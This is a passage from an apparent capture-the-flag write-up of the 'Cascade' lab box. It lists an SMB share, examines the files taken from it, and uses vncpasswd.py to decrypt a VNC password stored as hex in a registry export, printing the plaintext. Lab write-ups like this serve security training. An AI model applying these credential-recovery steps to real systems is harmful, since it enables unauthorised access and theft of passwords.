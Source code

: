 ```
  Contractors                         D        0  Sun Jan 12 20:45:11 2020
  Finance                             D        0  Sun Jan 12 20:45:06 2020
  IT                                  D        0  Tue Jan 28 13:04:51 2020
  Production                          D        0  Sun Jan 12 20:45:18 2020
  Temps                               D        0  Sun Jan 12 20:45:15 2020

                13106687 blocks of size 4096. 7797938 blocks available
smb: \> 

```
I was able to get these files from the share.

```
kali@kali:~/Desktop/Boxes/Cascade/smbshare/Data$ ls
 ArkAdRecycleBin.log   dcdiag.log   Meeting_Notes_June_2018.html  'VNC Install.reg'
kali@kali:~/Desktop/Boxes/Cascade/smbshare/Data$ 
```
The file `ArkAdRecycleBin.log` contains logs from a program called Ark Ad recycle bin.
![ark](https://user-images.githubusercontent.com/16364370/78840692-f6e91500-79ea-11ea-9090-546ca442473f.png)
If you look closely you can see 2 objects get deleted. And the command is running as user ArkSvc. Maybe we can restore these objects?

The file `dcdiag.log` has inside:
![dcdiag](https://user-images.githubusercontent.com/16364370/78840877-7971d480-79eb-11ea-9da1-6aa53721b51b.png)

Which as the header says is something related to Server diagnosis. But there was nothing I could take as good info from this file. 

The other file `Meeting_Notes_June_2018.html`:
![meeting_notes](https://user-images.githubusercontent.com/16364370/78841124-17fe3580-79ec-11ea-9940-88144118920c.png)

From this file I get the following info:
* A new server is going live on Wednesday.
* They will be using a temporary account, which will be deleted at the end of the 2018. Username is `TempAdmin` and the password is the same as the normal admin.

If you look at the `ArkAdRecycleBin` file we can see user `TempAdmin` get deleted and the date is 8/12/2018 which is the day after wednesday. We keep this in our mind. 

The last file we see it `VNC Install.reg`:

![vnc_log](https://user-images.githubusercontent.com/16364370/78841776-c8b90480-79ed-11ea-8d19-56545fc640d5.png)   
This is extracted from a registry as the file extension says. Also there is `Password` which is in hex. I try and search more in depth for this and find out a tool which may decode the password for me. I used this tool [vncpasswd](https://github.com/trinitronx/vncpasswd.py).

```
kali@kali:~/Desktop/Boxes/Cascade/smbshare/Data$ git clone https://github.com/trinitronx/vncpasswd.py.git vncpasswd.py
Cloning into 'vncpasswd.py'...
remote: Enumerating objects: 26, done.
remote: Counting objects: 100% (26/26), done.
remote: Compressing objects: 100% (22/22), done.
remote: Total 287 (delta 10), reused 13 (delta 4), pack-reused 261
Receiving objects: 100% (287/287), 87.94 KiB | 526.00 KiB/s, done.
Resolving deltas: 100% (144/144), done.
kali@kali:~/Desktop/Boxes/Cascade/smbshare/Data$ cd vncpasswd.py
kali@kali:~/Desktop/Boxes/Cascade/smbshare/Data/vncpasswd.py$ ./vncpasswd.py -d -H "6bcf2a4b6e5aca0f"
Cannot read from Windows Registry on a Linux system
Cannot write to Windows Registry on a Linux system
Decrypted Bin Pass= 'sT333ve2'
Decrypted Hex Pass= '7354333333766532'
kali@kali:~/Desktop/Boxes/Cascade/smbshare/Data/vncpasswd.py$ 
```